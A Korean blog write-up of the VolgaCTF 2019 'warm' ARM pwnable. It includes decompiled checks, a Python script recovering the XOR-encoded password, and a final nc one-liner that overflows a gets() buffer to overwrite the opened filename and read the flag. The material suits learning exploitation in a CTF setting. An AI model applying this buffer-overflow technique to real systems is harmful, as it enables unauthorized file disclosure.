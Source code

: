 ```yaml
---
layout: post
title: ! "[Volga ctf] warm write up"
excerpt_separator: <!--more-->
comments : true
tags:
  - volga
  - warm
  - pwn
  - chaem
---
```


ctf가 끝난지 한참 뒤에 쓰는 volga ctf 2019 qual의 warm이라는 pwnable문제이다.  

<!--more-->

일단 `file` 명령어로 보니, ARM 바이너리라는 것을 알 수 있었다.  

```
root@ubuntu:/home/ubuntu/study/ctf/warm# file warm 
warm: ELF 32-bit LSB shared object, ARM, EABI5 version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux-armhf.so.3, for GNU/Linux 3.2.0, BuildID[sha1]=c549628c0b3841a5fd9a23f0faaf6b51eb858e94, stripped
```

IDA의 hexray기능을 이용을 이용하여 코드를 보니, 이렇게 이쁘게 다 보여주었당...  
다른 writeup을 보다가 `Ghildra(기드라)`라는 툴도 알게되었다. IDA랑은 다르게 오픈소스로 제공되다니, 짱짱 *.* 다음에 꼭 한번 써봐야겠당 ㅎㅎ  
아무튼 본론으로 돌아와서, 단순한 연산을 통해 문자열을 검사하는 것을 알 수 있다.  

```c
signed int __fastcall sub_788(const char *a1)
{
  char *s; // [sp+4h] [bp+4h]

  s = (char *)a1;
  if ( strlen(a1) <= 0xF )
    return 1;
  if ( (unsigned __int8)(*s ^ 0x23) != 0x55
    || (unsigned __int8)(s[1] ^ *s) != 0x4E
    || (unsigned __int8)(s[2] ^ s[1]) != 0x1E
    || (unsigned __int8)(s[3] ^ s[2]) != 0x15
    || (unsigned __int8)(s[4] ^ s[3]) != 0x5E
    || (unsigned __int8)(s[5] ^ s[4]) != 0x1C
    || (unsigned __int8)(s[6] ^ s[5]) != 0x21
    || (unsigned __int8)(s[7] ^ s[6]) != 1
    || (unsigned __int8)(s[8] ^ s[7]) != 0x34
    || (unsigned __int8)(s[9] ^ s[8]) != 7
    || (unsigned __int8)(s[10] ^ s[9]) != 0x35
    || (unsigned __int8)(s[11] ^ s[10]) != 0x11
    || (unsigned __int8)(s[12] ^ s[11]) != 0x37
    || (unsigned __int8)(s[13] ^ s[12]) != 0x3C
    || (unsigned __int8)(s[14] ^ s[13]) != 0x72
    || (unsigned __int8)(s[15] ^ s[14]) != 0x47 )
  {
    return 2;
  }
  return 0;
}
```
이걸 다시 역연산 해보면!  
```python
input =[0x76,0x4e, 0x1e, 0x15, 0x5e, 0x1c, 0x21, 1, 0x34, 7, 0x35, 0x11, 0x37, 0x3c, 0x72, 0x47]
pw = chr(input[0])
result = input[0]
for i in range(1,len(input)):
    val = result ^ input[i]
    pw=pw+chr(val)
    result = val

print(pw)
```
이런 문자열이 나오는 것을 알 수 있다!  
```
root@ubuntu:/home/ubuntu/study/ctf/warm# python test.py 
v8&3mqPQebWFqM?x
```
지금은 서버가 닫혀있지만, 위의 값을 입력하면 `Seek file with something more sacred!`라는 문구를 출력해준다. 여기서 `scared`가 힌트가 된다.  

```
Hi there! I've been waiting for your password!
v8&3mqPQebWFqM?x
Seek file with something more sacred!
```

우선 다음 함수를 보면, gets()함수를 사용함으로써, overflow가 발생하는 것을 알 수 있다.  

```c
int sub_9EC()
{
  _IO_FILE *fp; // [sp+Ch] [bp+Ch]
  int c; // [sp+10h] [bp+10h]
  int v3; // [sp+14h] [bp+14h]
  int v4; // [sp+78h] [bp+78h]

  setvbuf((FILE *)stdout, 0, 2, 0);
  while ( 1 )
  {
    while ( 1 )
    {
      sub_8F0((char *)&v4);
      puts("Hi there! I've been waiting for your password!");
      gets((char *)&v3);
      if ( !sub_788((const char *)&v3) )
        break;
      sub_978(1, 0);
    }
    fp = (_IO_FILE *)fopen((const char *)&v4, "rb");
    if ( fp )
      break;
    sub_978(2, &v4);
  }
  while ( 1 )
  {
    c = IO_getc(fp);
    if ( c == -1 )
      break;
    putchar(c);
  }
  fclose((FILE *)fp);
  return 0;
}
```

buffer는 100 bytes로, `v8&3mqPQebWFqM?x` 16 bytes를 포함하여 overflow 시켜준다.  

```c
char *__fastcall sub_8F0(char *a1)
{
  char *result; // r0
  char *dest; // [sp+4h] [bp+4h]
  const char *src; // [sp+Ch] [bp+Ch]
  int v4; // [sp+10h] [bp+10h]
  char v5; // [sp+14h] [bp+14h]
  int v6; // [sp+18h] [bp+18h]

  dest = a1;
  strcpy(&v6, "FLAG_FILE");
  src = getenv((const char *)&v6);
  v4 = *(_DWORD *)"flag";
  v5 = aFlag[4];
  if ( src )
    result = strcpy(dest, src);
  else
    result = strcpy(dest, (const char *)&v4);
  return result;
}
```

그리고 마지막에 파일 이름을 써주면 flag를 얻을 수 있게 된다.  

```
python -c "print('v8&3mqPQebWFqM?x'+'A'*84+'sacred');" | nc warm.q.2019.volgactf.ru 443 
```
